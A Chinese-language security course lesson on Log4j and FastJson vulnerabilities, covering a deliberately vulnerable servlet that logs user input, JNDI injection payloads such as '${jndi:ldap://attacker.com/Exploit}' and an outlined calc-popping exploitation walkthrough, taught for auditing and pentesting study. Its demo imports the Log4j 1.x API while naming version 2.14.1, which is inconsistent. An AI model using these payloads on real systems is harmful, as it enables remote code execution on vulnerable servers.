



# 📚 课程P36：JavaEE应用、第三方组件、Log4j日志、FastJson序列化与JNDI注入


在本节课中，我们将学习JavaEE应用中常见的第三方组件，特别是Log4j日志组件和FastJson序列化库的安全问题。我们将从开发者的角度了解这些组件的基本用法，并探讨其相关漏洞（如Log4j远程代码执行和FastJson反序列化漏洞）的成因与简单复现。课程的核心是理解漏洞产生的条件，为后续的漏洞分析和安全审计打下基础。


## 🧱 第一部分：Log4j组件介绍与漏洞初探


Log4j是Apache的一个开源项目，它是Java应用程序中广泛使用的日志记录工具。开发者利用Log4j来处理服务器运行时的各种日志信息，例如控制日志的输出格式、级别和目的地。简单来说，它是一个帮助Java程序管理和记录日志的第三方组件。


任何使用Java并需要记录日志的应用程序都可能引入Log4j。由于该组件自身存在安全漏洞，因此引入了该组件的应用也可能面临安全风险。学习Log4j的安全开发与漏洞复现，有助于我们在后期进行白盒审计时，检测第三方组件的安全性。


### 环境搭建与项目创建

在开始之前，需要配置Maven环境。Maven是Java项目的构建和依赖管理工具，它可以从远程仓库自动下载项目所需的库文件（JAR包）。为了提高下载速度，建议将Maven的镜像源配置为国内的阿里云镜像。

以下是配置Maven镜像源的基本步骤（具体文章已提供）：
1.  下载并解压Maven。
2.  添加Maven到系统环境变量。
3.  修改Maven的配置文件 `settings.xml`，设置本地仓库路径和阿里云镜像源。

配置完成后，我们就可以在IDE（如IntelliJ IDEA）中创建Maven项目并引入Log4j依赖。


### 引入Log4j依赖


我们创建一个名为 `log4j-demo` 的Maven项目。在项目的 `pom.xml` 配置文件中，我们需要添加Log4j的依赖项。

首先，访问Maven中央仓库网站，搜索 “log4j”。在搜索结果中，选择一个存在已知漏洞的版本进行演示，例如 `2.14.1`。复制该版本对应的Maven依赖配置代码。


将复制的依赖配置粘贴到项目的 `pom.xml` 文件中的 `<dependencies>` 标签内。保存文件后，IDE通常会提示加载Maven变更。点击刷新后，Maven会自动从配置的镜像仓库下载Log4j的JAR包到项目的“外部库”中。


### Log4j基础使用与漏洞演示


成功引入Log4j后，我们创建一个Java测试类 `Log4jTest`。


首先，在 `main` 函数中，我们需要获取一个Log4j的日志记录器（Logger）。注意，要导入正确的类：`org.apache.log4j.Logger`，而不是JDK自带的日志类。


```java
import org.apache.log4j.Logger;


public class Log4jTest {
    private static final Logger logger = Logger.getLogger(Log4jTest.class);
    public static void main(String[] args) {
        // 基础日志输出
        logger.error("123");
    }
}
```
运行这段代码，会在控制台输出错误日志 “123”。


Log4j漏洞的核心在于其日志输出功能支持一种叫做“查找”（Lookup）的机制，特别是 `${}` 语法。当日志内容包含 `${}` 时，Log4j会尝试解析其中的表达式。


例如，我们尝试输出一个包含系统属性的变量：
```java
String code = "${java:os}";
logger.error(code);
```
运行后，会发现日志输出不再是 `${java:os}` 这个字符串，而是被解析后的结果，例如 `Windows 10 10.0`。这说明 `${java:os}` 这个表达式被Log4j执行了，并返回了Java运行环境的操作系统信息。





**漏洞成因简单分析**：如果日志输出的内容（`code` 变量）是用户可控的，那么攻击者就可以传入精心构造的 `${}` 表达式。当这个表达式被Log4j解析并执行时，就可能造成远程代码执行。

上一节我们介绍了Log4j的基本使用和漏洞的简单原理，本节中我们来看看如何在一个更贴近实战的Web环境中复现这个漏洞。

## 🌐 第二部分：Web环境下的Log4j漏洞复现与JNDI注入


为了更贴近实际应用场景，我们创建一个简单的Java Web项目来模拟漏洞触发点。


### 创建Web项目并集成Log4j


我们创建一个新的Web项目 `log4j-web`。在 `pom.xml` 中同样引入有漏洞版本的Log4j依赖。


然后，我们创建一个Servlet，用于处理HTTP请求。假设这个Servlet接收一个名为 `code` 的请求参数，并使用Log4j记录这个参数的值。


```java
import org.apache.log4j.Logger;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;


public class Log4jServlet extends HttpServlet {
    private static final Logger logger = Logger.getLogger(Log4jServlet.class);

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        String code = req.getParameter("code"); // 用户可控的输入点
        logger.error(code); // 漏洞触发点：将用户输入记录到日志
        resp.getWriter().println("Received: " + code);
    }
}
```
配置好Servlet的映射路径（例如 `/log4j`）并启动Tomcat服务器。

### 漏洞复现与初步利用


访问 `http://localhost:8080/log4j-web/log4j?code=test`，服务器会正常记录日志 “test”。
当我们传入 `${java:os}` 时，访问 `http://localhost:8080/log4j-web/log4j?code=${java:os}`，查看服务器日志或控制台，会发现输出的是解析后的系统信息，而不是原字符串。




这证明了用户输入被Log4j解析执行。但真正的危险来自于更强大的Lookup功能，例如JNDI（Java Naming and Directory Interface）查找。


### JNDI注入攻击演示

JNDI是Java提供的一个API，用于访问命名和目录服务。其中 `ldap://` 和 `rmi://` 是两种常见的协议，它们支持从远程服务器加载对象。这正是Log4j漏洞被利用进行远程代码执行的关键。

攻击者可以搭建一个恶意的LDAP或RMI服务器，该服务器会返回一个指向恶意Java类的引用。当Log4j解析如 `${jndi:ldap://attacker.com/Exploit}` 这样的字符串时，它会向 `attacker.com` 发起LDAP请求，并加载执行服务器返回的恶意类。

**利用步骤简述**：
1.  攻击者使用工具（如 `JNDI-Injection-Exploit`）启动一个恶意的RMI/LDAP服务器，并指定要执行的命令（例如 `calc` 打开计算器）。
2.  工具会生成一个对应的利用URL，如 `rmi://attacker-ip:1099/Exploit`。
3.  攻击者将包含该URL的Payload作为 `code` 参数发送给存在漏洞的Web应用：`${jndi:rmi://attacker-ip:1099/Exploit}`。
4.  存在漏洞的应用在记录日志时，会触发JNDI查找，向攻击者的服务器请求 `Exploit` 类并加载执行，从而导致计算器被弹出。


通过这个案例，我们可以总结出Log4j漏洞利用的三个必要条件：
1.  应用程序引入了存在漏洞版本的Log4j组件。
2.  程序代码中调用了Log4j的日志记录方法（如 `logger.info()`, `logger.error()`）。
3.  日志记录的内容部分或全部来自用户可控的输入。

## 🔄 第三部分：FastJson组件与反序列化漏洞

FastJson是阿里巴巴开源的一个高性能JSON处理库，用于实现Java对象与JSON字符串之间的相互转换（序列化与反序列化）。它在Java Web开发中广泛应用。

### FastJson基础使用

我们创建一个新的Maven项目 `fastjson-demo`，并在 `pom.xml` 中引入存在漏洞的FastJson版本，例如 `1.2.24`。


首先，我们创建一个简单的Java Bean类 `User`：
```java
package com.xiaodi;


public class User {
    private String name;
    private int age;
    // 省略构造函数、getter和setter方法
    @Override
    public String toString() {
        return "User{name='" + name + "', age=" + age + "}";
    }
}
```
然后，我们编写测试代码来演示FastJson的基本功能：
```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;
import com.xiaodi.User;


public class FastJsonTest {
    public static void main(String[] args) {
        // 1. 创建对象
        User user = new User();
        user.setName("小迪");
        user.setAge(30);
        System.out.println("原始对象: " + user);

        // 2. 序列化：将Java对象转换为JSON字符串
        String jsonString = JSON.toJSONString(user);
        System.out.println("序列化后的JSON: " + jsonString);

        // 3. 反序列化：将JSON字符串转换回Java对象
        User parsedUser = JSON.parseObject(jsonString, User.class);
        System.out.println("反序列化后的对象: " + parsedUser);
    }
}
```
运行代码，可以看到对象被成功转换为JSON字符串 `{"age":30,"name":"小迪"}`，并能正确转换回来。


### FastJson反序列化漏洞成因


FastJson在反序列化过程中，有一个特性：可以通过 `@type` 属性来指定要反序列化的目标类的全限定名。例如：
```json
{
  "@type": "com.xiaodi.User",
  "age": 30,
  "name": "小迪"
}
```
FastJson会根据 `@type` 的值去实例化 `com.xiaodi.User` 类，然后填充 `age` 和 `name` 属性。


**漏洞就产生在这里**：如果攻击者能够控制反序列化过程中的JSON字符串，并且FastJson版本存在漏洞，那么攻击者可以将 `@type` 指定为一些Java类库中存在的、具有危险行为的类。


例如，攻击者可以构造一个JSON，其 `@type` 指向 `java.lang.Runtime` 或 `com.sun.rowset.JdbcRowSetImpl` 等类，并精心设置其属性。在反序列化时，FastJson会实例化这些类并调用其属性的setter方法，可能触发远程代码执行或JNDI注入。


一个典型的利用链是结合JNDI注入。攻击者构造的JSON中，`@type` 指定为 `com.sun.rowset.JdbcRowSetImpl`，并设置其 `dataSourceName` 属性为一个恶意的JNDI地址（如 `ldap://attacker.com/Exploit`）。当这个JSON被反序列化时，会触发JNDI查找，从而加载远程恶意类，实现远程代码执行。


**漏洞利用条件**：
1.  应用程序使用了存在漏洞版本的FastJson。
2.  程序代码中调用了 `JSON.parse()` 或 `JSON.parseObject()` 等方法对用户可控的字符串进行反序列化。





## 📝 课程总结


本节课我们一起学习了JavaEE应用中两个重要的第三方组件：Log4j和FastJson。


我们首先了解了Log4j作为日志记录组件的基本用途，并通过代码演示了其漏洞成因：**用户输入被直接传递给Log4j的日志方法，并且其中包含可被解析执行的 `${}` 表达式**。我们进一步在Web环境中复现了该漏洞，并引入了**JNDI注入**的概念，了解到攻击者如何通过 `ldap://` 或 `rmi://` 协议远程加载恶意代码，从而实现远程命令执行。


接着，我们学习了FastJson这个JSON处理库。我们掌握了其序列化（对象转JSON）和反序列化（JSON转对象）的基本用法。其漏洞根源在于反序列化过程中，**攻击者可以通过 `@type` 属性控制要实例化的类**，如果指向了某些具有危险方法的类（常与JNDI结合），就会导致安全风险。


通过本节课的学习，我们不仅从开发者角度明白了这些组件的用途，更重要的是理解了其相关高危漏洞的产生条件和基本原理。这为我们后续进行代码审计（白盒）时快速定位风险点，以及渗透测试（黑盒）时理解漏洞利用链打下了坚实的基础。下节课，我们将深入探讨JNDI注入的细节，包括RMI和LDAP协议的工作原理。